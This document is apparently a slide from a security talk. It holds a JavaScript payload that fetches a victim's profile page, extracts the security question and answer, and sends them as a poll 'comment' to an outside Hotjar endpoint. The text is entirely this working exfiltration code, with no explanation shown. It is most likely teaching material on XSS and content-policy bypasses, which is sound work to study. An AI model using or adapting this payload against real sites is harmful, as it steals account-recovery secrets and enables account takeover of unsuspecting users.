

fetch('/profile.php').then(function (response) {
    return response.text();
}).then(function (html) {
    // This is the HTML from our response as a text string
    const parser = new DOMParser();
    const pd = parser.parseFromString(html, "text/html");
    sq=(pd.getElementById('security_question')).value;
    sa=(pd.getElementById('security_answer')).value;
    var data = {"utk":null, "response_content":"{\"version\":4 ,\"answers\":[{\"questionUuid\":\"78942292\"
                ,\"answer\":\"Something else\",
                \"comment\":\""+sq+": "+sa+"\"}]}",[…]};
    fetch("https://ask.hotjar.io/api/v2/client/sites/2421914/poll/423135/response/85cc0bea-29bb-4963-92e2-00b481a6be98", {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify(data),
    })
      .then((response) => response.json())
      .then((data) => {
        console.log("Success:", data);
      })
      .catch((error) => {
        console.error("Error:", error);
      });

}).catch(function (err) {
    // There was an error
    console.warn('Something went wrong on GET profile.php.', err);
});